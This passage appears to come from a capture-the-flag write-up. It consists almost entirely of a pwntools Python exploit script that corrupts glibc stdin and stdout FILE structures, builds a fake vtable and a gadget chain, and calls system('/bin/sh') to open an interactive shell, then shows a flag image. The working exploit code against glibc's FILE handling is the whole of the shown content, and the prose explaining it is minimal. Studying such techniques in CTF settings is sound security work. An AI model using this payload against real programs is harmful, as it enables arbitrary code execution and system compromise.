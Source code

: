 ```python
_IO_stdfile_0_lock = 0x240720 + libc.address
_IO_wide_data_0 = 0x23e9c0

val = ((libc.sym._IO_2_1_stdout_ + 0x300) & 0xff00) >> 8

input()
p.sendlineafter(b'Where: ',str(libc.sym._IO_2_1_stdin_+0x41))
p.sendafter(b'What: ',p8(val))


stdout_lock = libc.address + 0x240710   # _IO_stdfile_1_lock  (symbol not exported)
stdout = libc.sym['_IO_2_1_stdout_']
fake_vtable = libc.sym['_IO_wfile_jumps']-0x18
# our gadget
gadget = libc.address + 0x000000000014a870 # add rdi, 0x10 ; jmp rcx

fake = FileStructure(0)
fake.flags = 0x3b01010101010101
fake._IO_read_end=libc.sym['system']            # the function that we will call: system()
fake._IO_save_base = gadget
fake._IO_write_end=u64(b'/bin/sh'.ljust(8,b'\x00'))  # will be at rdi+0x10
fake._lock=stdout_lock
fake._codecvt= stdout + 0xb8
fake._wide_data = stdout+0x200          # _wide_data just need to points to empty zone
fake.unknown2=p64(0)*2+p64(stdout+0x20)+p64(0)*3+p64(fake_vtable)


payload = b'a'*5 + p64(_IO_stdfile_0_lock) + p64(0xffffffffffffffff) + p64(0) + p64(_IO_wide_data_0 + libc.address) + p64(0)*3 + p64(0x00000000ffffffff)
payload += p64(0)*2 + p64(libc.sym._IO_file_jumps)
payload = payload.ljust(0xc5d,b'a') + bytes(fake)

p.send(payload)
p.interactive()
```

![flagfsop](/assets/images/flagfsop.png)
